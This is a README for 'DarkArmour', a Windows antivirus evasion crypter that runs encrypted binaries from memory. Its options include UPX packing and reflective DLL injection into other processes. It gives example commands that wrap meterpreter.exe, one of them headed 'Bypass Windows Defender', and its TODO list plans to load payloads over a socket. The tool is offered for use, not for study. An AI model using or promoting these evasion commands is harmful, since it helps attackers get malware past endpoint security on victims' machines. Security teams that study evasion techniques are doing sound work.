 # Windows AV Evasion Tool

Store and execute an encrypted windows binary from inside memory, without a single bit touching disk.

## Usage

```
DarkArmour (v0.1) by Dylan Halls

usage: darkarmour.py [-h] [-u] [-b] [-d] [-s] [-r] [-k KEY] [-o OUTFILE] file

positional arguments:
  file                  file to crypt, assumed as binary if not told otherwise

optional arguments:
  -h, --help            show this help message and exit
  -u, --upx             upx file before crypting
  -b, --binary          provide if file is a binary exe
  -d, --dll             use reflective dll injection to execute the binary
                        inside another process
  -s, --source          provide if the file is c source code
  -r, --raw             store binary in memory without encrypting
  -k KEY, --key KEY     key to encrypt with, randomly generated if not
                        supplied
  -o OUTFILE, --outfile OUTFILE
                        name of outfile, if not provided then random filename
                        is assigned
```

## Example

`./crypter.py meterpreter.exe -o meta.exe`

## Bypass Windows Defender

`./crypter.py -u meterpreter.exe -o meta.exe`

## TODO

  - Intergrate into PowerUp
  - Add support for flags s,r,k
  - Load pe image over a socket so not stored inside the binary
